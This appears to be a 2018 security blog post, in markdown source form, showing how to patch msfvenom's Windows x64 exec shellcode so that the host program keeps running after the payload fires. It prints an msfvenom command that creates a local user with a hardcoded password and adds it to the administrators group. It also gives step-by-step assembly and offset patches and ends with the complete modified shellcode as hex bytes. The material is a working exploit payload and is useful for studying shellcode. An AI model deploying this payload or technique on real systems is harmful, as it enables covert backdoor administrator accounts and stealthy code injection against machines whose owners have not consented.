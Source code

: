 ```yaml
---
layout: single
title: Altering Msfvenom Exec Payload to Work Without an ExitFunc
date: 2018-11-18
categories:
  - security
  - shellcoding
tags:
  - msfvenom
  - exitfunc
  - x64
  - windows
---
```

On a few occasions as of late, I've wanted to use the `windows[/x64]/exec` payload from `msfvenom`, but with the goal of:

1. Allowing execution to continue afterwards
2. Executing in a single threaded environment
3. Executing without an exception handler

Unfortunately, when setting the `EXITFUNC` option to `none`, no code is generated to allow execution to continue as normal after the payload has been executed, and ultimately results in an access violation.

The example I'll be going over in this post is specifically the x64 version of the exec payload, which differs slightly to the x86 version. Most notably, the calling convention is different, the x86 version will see all arguments pushed on to the stack, but the x64 version will put the first few arguments into registers.

To generate the base shellcode I'll be working with, I ran: `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add di.security Disecurity1! && net localgroup administrators di.security /add"' EXITFUNC=none`

What Causes the Problem
-----------------------
The `exec` payload uses the [WinExec](https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-winexec) function to run the command specified in the `CMD` option.

To push the command text specified in the `CMD` option on to the stack, it is defined as raw bytes at the end of the payload, preceded by a `call` instruction:

When `call` is used, the address of the next instruction is then pushed on to the stack, so the execution flow can return to the correct place later. In the context of shellcoding, the pointer to the next instruction is effectively a pointer to the string that has been defined in place, and avoids the need for N amount of `push` instructions.

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/original_storing_of_cmd_on_stack.png)

If we were to take the first few bytes that appear after `call rbp` in the above screenshot and convert them to ASCII, we can see that it is the equivalent of `cmd.exe /k`:

```shell_session
$ echo -e "\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x6b"
cmd.exe /k
```

Eventually, the execution of the payload will end up being passed to these bytes, which will lead to an error at some point, as the bytes are nonsensical in terms of actual operations.

The Solution
------------
The solution to this issue is quite simple. The ultimate goal will be to add some extra bytes before the command text bytes which will instruct the program to jump past the command text bytes so that normal operations can continue.

As you may be anticipating, doing this will cause an issue in that extra bytes will precede the command text in the call to `WinExec`. To avoid this becoming an issue, an additional change will need to be made to ensure the pointer used for the `lpCmdLine` argument is increased by an appropriate number of bytes, so that it points ahead of the new bytes being added.

The change to the command text area can be seen in the screenshot below:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/cmd-text-with-jmp.png)

Four new bytes have been added after `call rbp`, the first two are are for a `jmp` operation to jump forward past the in place bytes, and the subsequent two bytes are just two NOPs to visually show the separation.

With the new code in place to ensure the command text bytes are never executed, the change to offset the `lpCmdLine` pointer can be made.

The point at which `WinExec` is invoked is at the `jmp rax` operation. At this point, the command being executed will be stored in the `rcx` register. The code block to look for is:

```nasm
pop  r8              ; 4158
pop  r8              ; 4158
pop  rsi             ; 5E
pop  rcx             ; 59
pop  rdx             ; 5A
pop  r8              ; 4158
pop  r9              ; 4159
pop  r10             ; 415A
sub  rsp,byte +0x20  ; 4883EC20
push r10             ; 4152
jmp  rax             ; FFE0
```

As 4 bytes will be added before `jmp rax` to make the adjustment, and 4 bytes were added to jump over the command text, `rcx` needs to be adjusted by 8 bytes. To do this, `add rcx, 0x8` is inserted before `jmp rax`:

```nasm
push r10             ; 4152
add  rcx, byte +0x8  ; 4883C108
jmp  rax             ; FFE0
```

Fixing Relative Jumps
---------------------
The simple solution now becomes a bit more painful. Adding the adjustment to the `rcx` register causes a shift in a number of offsets by 4 bytes.

Thankfully, the visual aid on the left side of the screen in [x64dbg](https://x64dbg.com/) makes it a bit easier to identify affected jumps by showing where they would land if taken.

Any jump or call instruction that has an offset that went forward past `jmp rax` will need to have its offset increased by 4, where as any jump or call that went backwards will need to have its offset decreased by 4.

A total of 4 operations were found that needed to be changed:

- `E8 C0` (`call 0xca`) changes to `E8 C4`
- `74 67` (`jz 0xbf`) changes to `74 6B`
- `E3 56` (`jrcxz 0xbe`) changes to `E3 5A`
- The one jump backwards found towards the end of the payload changes from `E9 57 FF FF FF` to `E9 53 FF FF FF`

Wrapping Up & Testing
---------------------
Now that all the changes have been made, checking the value of `rcx` when sitting on the `jmp rax` instruction should show it pointing to the start of the command text bytes:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/winexec-rcx.png)

After the call to `WinExec`, the execution should eventually return to the short jump that was added before the command text bytes, which should jump straight over the entirety of the command text:

![](/assets/images/altering-msfvenom-exec-payload-to-work-without-exitfunc/post-execution.png)

What you place after the command text bytes is completely up to you. In this case, I placed a NOP sled, a stack adjustment and a call into some existing code.

After making these changes, the final payload (minus the additions after the final NOP sled) looks like this:

`\xfc\x48\x83\xe4\xf0\xe8\xc4\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6b\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5a\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\x48\x83\xc1\x08\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x53\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\xeb\x69\x90\x90\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x6b\x20\x22\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x2f\x61\x64\x64\x20\x64\x69\x2e\x73\x65\x63\x75\x72\x69\x74\x79\x20\x44\x69\x73\x65\x63\x75\x72\x69\x74\x79\x31\x21\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x64\x69\x2e\x73\x65\x63\x75\x72\x69\x74\x79\x20\x2f\x61\x64\x64\x22\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90`

